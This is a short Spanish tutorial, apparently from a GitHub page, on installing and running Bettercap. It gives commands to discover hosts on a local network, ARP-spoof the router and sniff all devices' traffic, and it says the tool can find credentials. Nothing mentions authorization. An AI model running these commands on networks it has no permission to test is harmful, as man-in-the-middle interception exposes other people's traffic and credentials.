


# Análisis con Bettercap
<br>

<p align="center">

</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación


sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>



<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár en este caso vamos a nalizar todas las IP para esto seleccionamos la IP del router.

```
set arp.spoof targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de todos los dispositivos.

<br>



<br>


